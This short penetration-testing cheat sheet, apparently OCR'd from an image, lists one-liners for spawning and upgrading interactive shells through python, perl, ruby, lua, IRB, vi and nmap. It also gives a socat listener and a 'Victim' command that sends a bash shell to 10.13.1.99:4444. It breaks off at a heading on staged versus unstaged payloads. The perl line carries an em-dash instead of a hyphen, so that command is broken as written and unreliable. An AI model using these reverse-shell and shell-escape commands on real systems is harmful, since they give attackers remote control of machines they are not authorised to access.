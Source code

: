 # python sh shell
python -c "import pty; pty.spawn('/bin/sh')"

# python bash shell
python -c "import pty; pty.spawn('/bin/bash')"

# using socat
Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444
Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.13.1.99:4444


# using perl
perl —e 'exec "/bin/sh";'

# using perl
perl: exec "/bin/sh";

# using ruby
ruby: exec "/bin/sh"

# using lua
lua: os.execute('/bin/sh')

# (From within IRB)
exec "/bin/sh"

# (From within vi)
:!bash

# (From within vi)
:set shell=/bin/bash:shell

# (From within nmap)
!sh


## Staged VS Unstaged Payloads ##################################
